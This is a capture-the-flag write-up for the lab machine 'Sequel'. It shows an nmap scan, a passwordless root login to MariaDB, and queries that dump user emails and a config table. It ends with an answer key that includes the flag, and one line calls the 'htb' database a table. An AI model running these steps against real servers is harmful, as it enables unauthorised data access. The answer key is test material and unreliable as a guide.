 # Sequel

> IP: [10.129.95.232]

## NOTES / STEPS

1. Deploy Machine
2. NMAP
   1. > nmap -sC -sV 10.129.95.232 -oN init_scan
      1. Port 3306 -> mysql
         1. Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
3. MYSQL
   1. Lets connect to the database on port 3306 as the root user
      1. > mysql -uroot -h 10.129.95.232 -P 3306
4. QUERY
   1. > show databases;

        ```text
            +--------------------+
            | Database           |
            +--------------------+
            | htb                |
            | information_schema |
            | mysql              |
            | performance_schema |
            +--------------------+
        ```

        1. Inhere we see the `htb` table which is not a normal table
        2. Lets use this database and get the data
   2. > use htb;
   3. > show tables;
      1. users, config
   4. > select * from users;

        ```text
            +----+----------+------------------+
            | id | username | email            |
            +----+----------+------------------+
            |  1 | admin    | admin@sequel.htb |
            |  2 | lara     | lara@sequel.htb  |
            |  3 | sam      | sam@sequel.htb   |
            |  4 | mary     | mary@sequel.htb  |
            +----+----------+------------------+
        ```

   5. > select * from config;

        ```text
            +----+-----------------------+----------------------------------+
            | id | name                  | value                            |
            +----+-----------------------+----------------------------------+
            |  1 | timeout               | 60s                              |
            |  2 | security              | default                          |
            |  3 | auto_logon            | false                            |
            |  4 | max_size              | 2M                               |
            |  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
            |  6 | enable_uploads        | false                            |
            |  7 | authentication_method | radius                           |
            +----+-----------------------+----------------------------------+
        ```

## QUESTIONS

1. During our scan, which port do we find serving MySQL?
   1. `3306`
2. What community-developed MySQL version is the target running?
   1. `mariadb`
3. When using the MySQL command line client, what switch do we need to use in order to specify a login username?
   1. `-u`
4. Which username allows us to log into this MariaDB instance without providing a password?
   1. `root`
5. In SQL, what symbol can we use to specify within the query that we want to display everything inside a table?
   1. `*`
6. In SQL, what symbol do we need to end each query with?
   1. `;`
7. There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?
   1. `htb`
8. Submit root flag
   1. `7b4bec00d1a39e3dd4e021ec3d915da8`
